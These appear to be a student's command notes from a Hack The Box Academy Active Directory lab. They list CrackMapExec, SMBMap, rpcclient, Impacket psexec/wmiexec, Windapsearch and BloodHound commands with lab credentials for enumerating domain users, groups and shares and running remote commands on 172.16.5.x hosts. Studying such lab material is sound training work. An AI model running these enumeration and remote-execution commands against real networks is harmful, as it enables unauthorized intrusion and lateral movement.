 User=forend and password=Klmcargo2

## CrackMapExec
```shell-session
crackmapexec -h
```
```shell-session
crackmapexec smb -h
```
```shell-session
crackmapexec winrm -h
```

- '-u Username'
- '-p Password'
- Target
- '--users'
- '--groups'
- '--loggedon-users'

**Domain User Enumeration
```shell-session
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
```

**Domain Group Enumeration
```shell-session
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```

**Logged On Users
```shell-session
sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
```

**Share Enumeration - Domain Controller
```shell-session
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
```

**Spider_plus
```shell-session
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
head -n 10 /tmp/cme_spider_plus/172.16.5.5.json 
```

## SMBMap
```shell-session
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
```

**Recursive List of All Directories
```shell-session
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only
```

## rpcclient
```shell-session
rpcclient -U "" -N 172.16.5.5
queryuser 0x457
enumdomusers
```

## Impacket Toolkit

**psexec.py (need admin credentials)
```shell-session
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```

**wmiexec.py
```shell-session
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5 
```

## Windapsearch
```shell-session
windapsearch.py -h
```

**Windapsearch - Domain Admins
```shell-session
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```

**Windapsearch - Privileged Users
```shell-session
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```

## Bloodhound.py
```shell-session
bloodhound-python -h
sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all
ls
sudo neo4j start
bloodhound
user == neo4j
pass == HTB_@cademy_stdnt!
zip -r ilfreight_bh.zip *.json
```
- Upload zip file


